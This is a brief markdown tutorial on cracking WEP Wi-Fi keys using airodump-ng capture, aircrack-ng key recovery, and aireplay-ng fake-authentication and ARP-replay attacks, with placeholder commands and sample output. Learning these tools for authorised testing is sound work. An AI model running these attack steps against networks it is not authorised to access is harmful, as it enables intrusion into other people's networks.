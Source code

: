 # WEP Cracking

For WEP cracking we need to follow a few simple steps

1. we need to capture enought data from router by running Targeted sniffing on the network and write it into some file. file with **.cap** extention is what we would need for next step
2. We need to run aircrack-ng on the file



> Command for targeted packet sniffing
> ```bash
> airodump-ng --bssid <AdoptarMac> --channel <networkChennel> --write <fileName> <InterfaceName>
> ``` 
files will be created with the extensions **.cap**, **csv**, **netxml**

Once we have the files we can run the following command for cracking

> Command for targeted packet sniffing
> ```bash
> aircrack-ng filename.cap
> ``` 
once the process is complete you will see some thing like

**KEY FOUND! [11:22:33:44:55] (ASCII: As23p)**
you can either use ASCII **As23p** to connect to the network

or

you can convert [11:22:33:44:55] into **1122334455** and use it to connect to the network
# Problem and solutions
What if the network is not busy and not generating any data
what sould we do.?
1. Become associated with the network using a fakeauth attack
 ```bash
aireplay-ng --fakeauth 0 -a <networkMac> -h <interfaceMAC> <InterfaceName>
 ``` 
2. Once you are associated with the adoptor now we need an **ARP replay**
attack

 ```bash
aireplay-ng --arpreplay -b <networkMac> -h <interfaceMAC> <InterfaceName>
 ``` 
This will generate new packets with new IV's used for WEP cracking.
